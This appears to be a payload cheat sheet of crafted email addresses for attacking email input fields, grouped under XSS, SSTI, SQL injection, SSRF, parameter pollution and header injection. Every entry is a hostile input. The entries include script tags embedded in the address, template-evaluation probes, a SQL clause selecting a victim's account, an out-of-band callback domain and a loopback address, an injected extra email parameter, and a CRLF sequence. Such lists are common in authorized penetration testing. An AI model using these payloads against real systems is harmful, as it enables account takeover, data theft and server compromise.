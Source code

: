 ## XSS
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com

## SSTI
"<%= 7*7 %>"@example.com
test+(${{7*7}})@example.com

## SQLi
"' OR email='victim@company.com'--'"@example.com

## SSRF
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]

## Parameter Pollution
victim&email=attacker@example.com

## Header Injection
"%0d%0aContent-Length"

